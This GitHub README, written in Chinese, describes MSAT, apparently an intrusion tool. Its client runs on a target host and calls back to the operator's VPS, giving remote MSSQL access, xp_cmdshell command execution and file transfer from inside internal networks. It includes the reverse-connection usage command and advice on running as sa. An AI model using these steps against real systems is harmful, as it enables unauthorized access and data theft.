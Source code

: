 # MSAT

MSAT是一款MSSQL反向连接可视化工具。

开发原因是遇到了较多的sql server数据库，但是大多处于内网。访问时都需要进入内网才能连接操作。在一番寻找之后没有发现合适的工具，于是本着学习.NET的打算，一通乱写，整出了这么个破玩意。勉强可以用一用。应该没有造车轮吧。由于使用到了Dev插件，导致服务端软件较大。

### 使用方法

软件分为两个部分，客户端和服务端。

#### 客户端 
.NET Framework版本： 3.5

将客户端上传到目标主机后，使用cmd打开。

```cmd
MSATClient ip port [time]
```

ip: VPS的IP地址

port：设置的VPS监听端口

time：可选参数，如果省略表示持续运行。加参数表示固定时间后自动断开socket连接，时间单位为分钟。注意：不会删除客户端持续，只是断开连接。

例：

```cmd
MSATClient 192.168.1.2 4444 60
表示连接192.168.1.2的4444端口，并且在60分钟后自动断开连接
```

#### 服务端
.NET Framework版本： 4.7.2

将压缩包解压，打开MSATServer.exe即可。

![](https://github.com/GabgM/MSAT/raw/master/image/0.PNG)

服务端有两种Socket运行方式。

①、当HOST为0.0.0.0时，监听本地端口，等待客户端反向连接。

②、当HOST不为0.0.0.0时，正向连接填写的host，搭配LCX使用，与客户端连接。

第二种连接方式存在一定的问题，只能勉强使用。

连接完成后，点击登陆按钮，连接数据库就可以正常使用了。

![](https://github.com/GabgM/MSAT/raw/master/image/1.PNG)

注意：数据库结构目前貌似只能是sa用户才能正常获取。当进行数据查询时，客户端的CPU占用会大幅度增加(25%左右)，用于对数据的处理。

当目标开启xp_cmdshell功能后，可以直接输入命令执行。

![](https://github.com/GabgM/MSAT/raw/master/image/2.PNG)

除了MSSQL的使用，还额外增加了cmd，和文件传输的功能。

下载文件，输入客户端文件的绝对路径即可。

上传文件，点击按钮选择即可。

![](https://github.com/GabgM/MSAT/raw/master/image/3.PNG)

最后，当需要退出程序时，会有两种退出方式。

![](https://github.com/GabgM/MSAT/raw/master/image/4.PNG)

点击是，会在退出服务端的同时关闭客户端。

点击否，只会退出服务端。



### 最后
本软件仅用于学习交流！
